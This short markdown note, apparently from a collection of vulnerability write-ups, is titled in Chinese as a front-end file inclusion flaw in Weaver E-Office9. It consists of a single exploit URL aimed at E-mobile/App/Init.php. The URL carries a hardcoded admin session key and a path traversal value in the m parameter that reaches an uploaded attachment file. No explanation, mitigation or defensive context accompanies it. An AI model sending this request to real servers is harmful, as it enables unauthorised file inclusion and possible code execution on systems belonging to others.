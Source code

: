 # 泛微 Weaver E-Office9 前台文件包含

    ```
http://URL/E-mobile/App/Init.php?weiApi=1&sessionkey=ee651bec023d0db0c233fcb562ec7673_admin&m=12344554_../../attachment/xxx.xls
```
